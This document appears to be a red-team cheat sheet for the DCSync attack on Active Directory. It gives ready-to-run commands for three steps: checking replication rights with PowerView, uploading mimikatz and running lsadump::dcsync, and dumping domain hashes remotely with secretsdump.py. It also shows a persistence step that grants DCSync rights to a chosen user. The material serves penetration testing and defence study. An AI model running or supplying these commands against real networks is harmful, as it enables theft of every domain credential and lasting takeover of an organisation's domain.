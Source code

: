 # DCSync

## Overview
### Local exploitation
- The initial foothold must be against a domain account with **domain replication privileges (MS-DRSR)**. 
- The attacker would upload `mimikatz` and run the DCSync command from the `lsadump` module, specifying the targeted domain and user account.

### Remote exploitation
- The attacker would use `secretsdump.py` to query the  DCSync hashes.

## Tools needed
- [mimikatz](https://github.com/gentilkiwi/mimikatz)
- [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- [secretsdump](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

## Exploitation
*Assumption is that the attacker has access to the system through winrm*

### Local
```powershell
# OPTIONAL ENUMERATION
## Check who has permission (PowerView)
Get-ObjectAcl -DistinguishedName "dc=domain,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}

# Upload mimikatz
upload mimikatz.exe mimikatz.exe

# Run mimikatz
.\mimikatz.exe

## Inside mimikatz
lsadump::dcsync /domain:domain.local /user:user
```

### Remote
```bash
secretsdump.py -just-dc <user>:<password>@<ip> -outputfile dcsync_hashes
```

## Persistence
If you're a domain admin, you can give DCSync rights to any user with `PowerView`
```powershell
Add-ObjectAcl -TargetDistinguishedName "dc=domain,dc=local" -PrincipalSamAccountName <username> -Rights DCSync -Verbose
```

## References
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
